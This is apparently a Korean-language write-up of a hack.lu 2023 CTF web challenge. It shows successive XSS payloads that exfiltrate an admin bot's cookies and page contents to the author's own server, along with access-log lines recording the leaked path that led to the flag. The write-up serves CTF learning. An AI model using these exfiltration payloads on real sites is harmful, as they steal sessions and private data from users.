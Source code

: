 또한, alphabet 테이블을 보면 지원하는 문자들이 한정되어 있는 것을 볼 수 있다.     
     
가장 큰 걸림돌은 .(dot)을 사용하지 못한다는 점이었다. Webhook을 지원하는 사이트들의 도메인에 .(dot)이 포함된 경우가 대다수였기에 개인 웹 서버를 필요했다.     
     
AWS EC2 서버를 하나 파서 http://3.35.8.40/?d=hello 이와 같이 입력 받을 수 있는 환경을 구축해주었다.     
     
다음으로, XSS Payload를 작성하는데 삽질을 많이 했다.    
    
`<script>location.href='http://{ip}/?d='+document["cookie"]</script>//`

admin 세션 탈취를 시도해보았지만, httpOnly로 설정되어있어서 탈취할 수 없었다.

그래서, 다음 방법인 "/" 경로에 admin 계정의 /e/{id} 값을 탈취하는 것이었다.
     
/report를 수행하면, adminbot은 https://based.skin/e/{id} 경로를 방문하는데 id 값은 https://based.skin/ 경로에 있기에 fetch(), XMLHttpRequest() 등을 활용하여 Payload를 작성하기로 방향을 잡았다.     
    
`</h2><script>var/**/test="";fetch("/")["then"](response=>response["text"]())["then"](text=>{test=text;});window["location"]["href"]="http://52627496/?d="+test</script>`
     
fetch("/") 이후 HTML 결과를 test 변수에 넣어 location.href를 수행하도록 시도했는데 console에서는 잘 되는데 실제로 입력 값으로 줬을 때, fetch() 시점과 location.href가 실행되는 시점이 달라서인지 실행이 되지 않았다.     

`</h2><script>fetch("/")["then"](response=>response["text"]())["then"](text=>{window["location"]["href"]="http://52627496/?d="+text;});</script>////`
     
그래서, fetch() 안에서 location.href가 실행되도록 했는데 text 값이 넘어오지 않아서 데이터 크기 때문인가 싶어서 일부만 전달하도록 구현해보았다.
     
`</h2><script>fetch("/")["then"](response=>response["text"]())["then"](text=>{window["location"]["href"]="http://52627496/?d="+text["substring"](50,52);});</script>////`
    
text.substring을 활용하여 데이터의 일부를 전달하니 잘 전달되는 것을 확인할 수 있었다.

`</h2><script>fetch("/")["then"](response=>response["text"]())["then"](text=>{var/**/l=text["search"]("/e/");window["location"]["href"]="http://52627496/?d="+text["substring"](l,l+50);});</script>////`   
    
추가적으로, text.search를 활용하여 /e/ 문자열의 index를 찾고 뒤에 부분을 가져오도록 했다.    
     
```bash
31.22.123.45 - - [15/Oct/2023:06:25:23 +0000] "GET /?d=f- HTTP/1.1" 200 205 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.62 Safari/537.36"

31.22.123.45 - - [15/Oct/2023:06:37:15 +0000] "GET /?d=/e/98def9f5621fc998b913aea476639ebd1a862c43%22%3E98def HTTP/1.1" 200 254 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.62 Safari/537.36"
```     
      
개인 서버의 access.log 내용을 보면, 값이 잘 넘어오는 것을 볼 수 있다. 31.22.123.45 (adminbot)이 방문한 로그이다. 이제 `/e/98def9f5621fc998b913aea476639ebd1a862c43%22%3E98def`에 접근해주면 값을 얻을 수 있다.    
    
`</h2><script>fetch("/e/98def9f5621fc998b913aea476639ebd1a862c43")["then"](response=>response["text"]())["then"](text=>{var/**/l=text["search"]("subtitle");window["location"]["href"]="http://52627496/?d="+text["substring"](l,l+50);});</script>////`

Payload를 조금 수정하여 전달해주면 아래와 같이 플래그를 획득할 수 있다.    
      
<img src="/assets/images/ctf/2023/hack.lu/base-encoding/flag.PNG" width="700px"/>   
    